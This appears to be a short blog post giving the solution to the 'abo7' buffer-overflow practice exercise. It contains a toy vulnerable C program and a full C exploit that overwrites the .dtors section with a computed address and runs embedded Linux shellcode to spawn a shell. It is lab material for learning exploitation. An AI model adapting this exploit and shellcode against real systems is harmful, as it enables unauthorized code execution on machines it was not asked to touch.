 ```yaml
---
layout: post
title: "abo7.c solution"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

vul,c
---

	char buf[256]={1};

	int main(int argv,char **argc) {
		strcpy(buf,argc[1]);
	}

exp.c
---
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <stdlib.h>

	#define BUF 	477	// 119*4 + 1 (offset for .dtors section)

	char sc[] = /* linux/i386 shellcode */
	"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

	int main(int argc, char *argv[])
	{
	    char dotname[128];
	    sprintf(dotname,"./%s",argv[1]);
	    printf("%s\n",dotname);
		char buf[BUF];
		int i, ret;

		/* address pointer */
		int *ap = (int *)(buf);

		/* user environment */
		extern char **environ;
		char **ep;
		int env_size = 0;

		ep = environ;
		while (*ep) {
			env_size += strlen(*ep);
			ep++;
			env_size++;
		}

		/* calculate the ret address */
		ret = 0xbffffffa - strlen(sc) - strlen(dotname) - env_size;

		fprintf(stderr, "Using env size: %d\n", env_size);
		fprintf(stderr, "Using offset for .dtors: %d\n", BUF);
		fprintf(stderr, "Using ret: 0x%X\n", ret);

		/* prepare buf for the overflow with the ret address */
		for (i = 0; i < BUF - 1; i += 4)
			*ap++ = ret;
		*ap = 0x0;

		/* run the vulnerable program */
		execl(dotname, argv[1], buf, sc, NULL);
		perror("execl");
	}
